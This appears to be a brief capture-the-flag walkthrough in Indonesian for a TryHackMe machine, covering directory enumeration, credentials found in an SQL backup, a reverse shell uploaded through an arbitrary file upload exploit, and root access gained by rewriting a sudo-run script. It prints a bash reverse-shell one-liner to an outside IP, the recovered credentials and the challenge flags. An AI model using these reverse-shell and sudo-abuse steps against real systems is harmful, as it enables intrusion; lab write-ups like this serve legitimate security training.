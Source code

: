 Enum, enum /content, cari2 dapet backup sql. Dapet credential
- manager
- Password123 (42f749ade7f9e195bf475f37a44cafcb)

rice:randompass

upload revshell via exploit-db upload file arbitary.

www-data@THM-Chal:/home/itguy$ cat user.txt
cat user.txt
THM{63e5bce9271952aad1113b6f1ac28a07}

karena bisa sudo perl sambil backup.pl, kita ganti copy.sh-nya jadi revshell bash 
- echo "bash -c 'exec bash -i &>/dev/tcp/10.8.15.76/5554 <&1'" > copy.sh

www-data@THM-Chal:/home/itguy$ sudo /usr/bin/perl /home/itguy/backup.pl

root@THM-Chal:~# cat root.txt
cat root.txt
THM{6637f41d0177b6f37cb20d775124699f}
